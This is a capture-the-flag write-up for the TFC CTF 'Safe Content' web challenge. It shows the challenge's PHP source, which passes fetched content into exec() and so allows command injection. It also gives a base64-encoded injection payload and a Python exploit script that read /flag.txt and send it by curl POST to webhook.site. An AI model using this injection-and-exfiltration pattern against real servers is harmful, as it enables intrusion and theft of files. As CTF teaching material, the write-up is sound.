 # TFC CTF WRITEUP
## SAFE CONTENT

### Web Interface
We are provided with an input in the form of a URL, and we must enter a localhost URL; other URLs are not allowed.

![Web Interface](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/web-safecontent.png?raw=true)

### Source Code
In this challenge, we are provided with the source code in `/src.php`.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>TFC Frontend</title>
    <style>
        body {
            background-color: #f9f4e9;
            font-family: Arial, sans-serif;
            color: #333;
            margin: 0;
            padding: 0;
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            height: 100vh;
        }

        .container {
            text-align: center;
        }

        .header {
            font-size: 2em;
            color: #f06292; /* matching the TFC logo */
            margin-bottom: 20px;
        }

        .form-container {
            background-color: #fff;
            border-radius: 8px;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
            padding: 20px;
            width: 300px;
        }

        .form-group {
            margin-bottom: 15px;
        }

        .form-group label {
            display: block;
            margin-bottom: 5px;
            color: #333;
        }

        .form-group input[type="text"] {
            width: 100%;
            padding: 8px;
            border: 1px solid #ccc;
            border-radius: 4px;
        }

        .form-group button {
            width: 100%;
            padding: 10px;
            background-color: #f06292;
            border: none;
            border-radius: 4px;
            color: #fff;
            font-size: 1em;
            cursor: pointer;
        }

        .form-group button:hover {
            background-color: #e91e63;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">TFC Content Fetcher </div>
        <div class="form-container">
            <form method="get">
                <div class="form-group">
                    <label for="url">Enter URL:</label>
                    <input type="text" id="url" name="url" required>
                </div>
                <div class="form-group">
                    <button type="submit">Fetch Content</button>
                </div>
            </form>
        </div>
    </div>

    <?php

    function isAllowedIP($url, $allowedHost) {
        $parsedUrl = parse_url($url);
        
        if (!$parsedUrl || !isset($parsedUrl['host'])) {
            return false;
        }
        
        return $parsedUrl['host'] === $allowedHost;
    }

    function fetchContent($url) {
        $context = stream_context_create([
            'http' => [
                'timeout' => 5 // Timeout in seconds
            ]
        ]);

        $content = @file_get_contents($url, false, $context);
        if ($content === FALSE) {
            $error = error_get_last();
            throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
        }
        return base64_decode($content);
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
        $url = $_GET['url'];
        $allowedIP = 'localhost';
        
        if (isAllowedIP($url, $allowedIP)) {
            $content = fetchContent($url);
            // file upload removed due to security issues
            if ($content) {
                $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
                exec($command . ' > /dev/null 2>&1');
                // this should fix it
            }
        }
    }
    ?>
</body>
</html>
```

From the code above, we can see that we can execute shell commands if we can insert the correct file, and the shell command will echo the `$content` and place it into `/tmp`. We can exploit this by inserting a payload that forces the shell to execute our content intended to read `flag.txt`.

### Crafting Payload

Since the input must include localhost in the URL, we can insert a payload like `target?url=(localhost?url=localhost/payload)` to get the flag. Since the system will read our payload as Base64, we first encode our payload into Base64.

![Crafting Payload](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/safe%20content1.png?raw=true)

In the code above, we will read `flag.txt` with the command `cat flag.txt`, then send the output to `webhook.site` using the POST method.

### Exploitation

After creating the payload, we can directly insert the payload we created into the URL input available on the webpage. Here is the payload detail:

```
http://localhost/?url=http://localhost/YDsKY2F0IC9mbGFnLnR4dCB8IGN1cmwgaHR0cHM6Ly93ZWJob29rLnNpdGUvZDVkZTY0NzYtZDEzZS00MWRiLWI2NmQtZTI3ZTQxNGE3NTczLyAtWCBQT1NUIC1kIEAtCg==
```

Then we can directly go to our webhook to see the contents of the `flag.txt` file.

![Webhook Content](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/webhook-safecontent.png?raw=true)

After executing the above, we successfully get the flag.

### Exploit with Python Script

```python
import base64
import requests
import urllib.parse

payload = "`;\ncat /flag.txt | curl https://webhook.site/ -X POST -d @-\n"
payload = base64.b64encode(payload.encode()).decode()
safe_string = urllib.parse.quote_plus("http://localhost/" + payload)
safe_string = urllib.parse.quote_plus("http://localhost/?url=" + safe_string)
requests.get("http://challs.tfcctf.com:30795/?url=" + safe_string)
```

---

![Evidence](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/efidence%20aladin.png?raw=true)

---

Thank you <3.